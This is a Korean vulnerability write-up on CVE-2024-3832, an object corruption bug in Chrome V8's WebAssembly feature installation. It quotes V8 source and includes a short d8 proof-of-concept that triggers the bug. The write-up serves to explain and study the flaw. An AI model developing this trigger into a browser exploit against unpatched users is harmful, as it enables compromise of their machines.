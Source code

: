 ```yaml
---
title: "[하루한줄] CVE-2024-3832: V8 엔진에서 발생하는 Object Corruption 취약점"
author: ogu123
tags: [Object Corruption, V8, ogu123]
categories: [1day1line]
date: 2024-10-02 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://securitylab.github.com/advisories/GHSL-2024-071_Chromium/

## Target

- Chrome < 124.0.6367.60

## Explain

CVE-2024-3832는 Chrome V8 엔진에서 발생하는 취약점으로 WebAssembly 객체에 특정 속성을 추가하는 과정에서 서로 다른 객체를 참조해 Object Corruption이 발생했습니다.

```

void WasmJs::InstallConditionalFeatures(Isolate* isolate,
                                        Handle<NativeContext> context) {
  ...
  MaybeHandle<Object> maybe_wasm =
      JSReceiver::GetProperty(isolate, global, "WebAssembly");    //<-------- 1.
  ...
  if (isolate->IsWasmJSPIEnabled(context)) {
    isolate->WasmInitJSPIFeature();

    Handle<String> suspender_string = v8_str(isolate, "Suspender");
    if (!JSObject::HasRealNamedProperty(isolate, webassembly, suspender_string)   //<----- 2.
             .FromMaybe(true)) {
      InstallSuspenderConstructor(isolate, context);
    }

    // Install Wasm type reflection features (if not already done).
    Handle<String> function_string = v8_str(isolate, "Function");
    if (!JSObject::HasRealNamedProperty(isolate, webassembly, function_string)
             .FromMaybe(true)) {
      InstallTypeReflection(isolate, context);
    }
  }
}

```

`InstallConditionalFeatures` 함수는 global WebAssembly 객체에 `Suspender`와 `Function`속성을 추가하기 전, 해당 속성이 이미 존재하는지 확인합니다.
만약 `Suspender` 속성이 없으면, `InstallSuspenderConstructor` 함수를 호출해서 속성을 추가합니다.


```

void WasmJs::InstallSuspenderConstructor(Isolate* isolate,
                                         Handle<NativeContext> context) {
  Handle<JSObject> webassembly(context->wasm_webassembly_object(), isolate);    //<------ 3.
  Handle<JSFunction> suspender_constructor = InstallConstructorFunc(
      isolate, webassembly, "Suspender", WebAssemblySuspender);
  context->set_wasm_suspender_constructor(*suspender_constructor);
  SetupConstructor(isolate, suspender_constructor, WASM_SUSPENDER_OBJECT_TYPE,
                   WasmSuspenderObject::kHeaderSize, "WebAssembly.Suspender");
}

```

`InstallSuspenderConstructor` 함수 내에서 3번 코드를 확인하면, `context->wasm_webassembly_object()`를 사용해 WebAssembly 객체를 참조합니다.

문제는 해당 객체가 global WebAssembly 객체와 다를 수 있어 동일한 `Suspender` 속성이 두 번 추가되어 Object Corruption으로 이어질 수 있습니다.


```
WebAssembly.foo = 1;
delete WebAssembly.foo;

WebAssembly.Suspender = 1;

let x = WebAssembly;
WebAssembly = {};

d8.test.enableJSPI();
de.test.installConditionalFeatures();

%DebugPrint(x);
%SystemBreak();

```

위 PoC 코드를 사용할 경우 Object Corruption을 트리거 할 수 있습니다.

`WebAssembly` 객체에 `Suspender` 속성을 추가하고, 해당 객체를 변수 `x` 에 저장합니다.

이후, 새로 정의된 빈 `WebAssembly` 객체 생성 후 `installConditionalFeatures` 함수를 실행하면, 빈 `WebAssembly` 객체에 대해 속성 검사를 수행하지만, 실제 속성 추가는 변수 `x` 객체에 추가하기 때문에 Object Corruption이 트리거 됩니다.

